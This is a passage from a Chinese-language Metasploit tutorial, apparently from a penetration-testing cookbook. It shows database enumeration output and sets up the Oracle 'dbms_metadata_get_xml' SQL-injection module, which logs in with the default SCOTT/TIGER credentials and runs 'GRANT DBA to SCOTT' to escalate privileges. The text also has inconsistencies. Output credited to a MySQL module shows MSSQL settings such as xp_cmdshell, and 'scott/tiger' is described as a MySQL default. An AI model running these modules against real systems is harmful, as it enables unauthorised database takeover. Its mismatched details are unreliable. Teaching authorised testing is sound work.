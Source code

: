 如您所见，模块接受密码、用户名和 RHOST 作为参数。这可以帮助模块首先搜索是否存在 MySQL 数据库，然后应用凭据尝试远程登录。让我们分析一下 `exploit`命令的输出：

```
msf auxiliary(mysql_enum) > exploit
[*] Configuration Parameters: 
[*] C2 Audit Mode is Not Enabled 
[*] xp_cmdshell is Enabled 
[*] remote access is Enabled 
[*] allow updates is Not Enabled 
[*] Database Mail XPs is Not Enabled 
[*] Ole Automation Procedures are Not Enabled 
[*] Databases on the server: 
[*] Database name:master 
```

该模块提供了大量有用的信息。它告诉我们在我们的目标 MySQL 设置上已经启用了 `cmdshell`和远程访问。它还返回目标计算机上当前正在处理的数据库名称。

有几个类似的模块可用于其他服务，如 MSSQL 和 Apache。大多数模块的工作过程类似。请记住使用 show options 命令，以确保将所需参数传递给模块。

## 它是如何工作的。。。

这些辅助管理模块通过启动连接，然后传递用户名和密码组合的简单枚举过程来运行。它还可用于检查数据库服务器是否支持匿名登录。我们还可以测试默认用户名和密码，比如 MySQL 使用“scott”和“tiger”作为默认登录凭据。

# SQL 注入和 DOS 攻击模块

Metasploit 对渗透测试人员和黑客都很友好。这是因为渗透测试人员必须从黑客的角度进行思考，以确保其网络、服务、应用程序等的安全。SQL 注入和 DOS 模块帮助渗透测试人员攻击他们自己的服务，以确定他们是否容易受到此类攻击。因此，让我们详细讨论其中的一些模块。

## 准备好了吗

SQL 注入模块使用数据库类型中的已知漏洞进行攻击，并提供未经授权的访问。已知该漏洞会影响 Oracle 9i 和 10g。Metasploit 包含几个模块，这些模块使用 Oracle 数据库中的已知漏洞，通过查询注入来破坏它们。模块可在 `modules/auxiliary/sqli/oracle`中找到。

## 怎么做。。。

让我们分析一个名为**oracle DBMS_ 元数据 XML**漏洞的 oracle 漏洞。此漏洞将权限从 `DB_USER`升级到 `DB_ADMINISTRATOR`（数据库管理员）。我们将使用 `dbms_metadata_get_xml`模块：

```
msf auxiliary(dbms_metadata_get_xml) > show options
Module options (auxiliary/sqli/oracle/dbms_metadata_get_xml):
Name Current Setting Required Description
---- --------------- -------- -----------
DBPASS TIGER yes The password to..
DBUSER SCOTT yes The username to..
RHOST yes The Oracle host.
RPORT 1521 yes The TNS port.
SID ORCL yes The sid to authenticate.
SQL GRANT DBA to SCOTT no SQL to execute. 
```

该模块要求提供到目前为止我们已经看到的类似参数。数据库首先使用默认登录凭据检查登录，即“scott”和“tiger”分别作为默认用户名和密码。一旦模块以数据库用户身份登录，它就会执行漏洞攻击，将权限升级到数据库管理员。让我们在目标上执行模块作为测试运行。
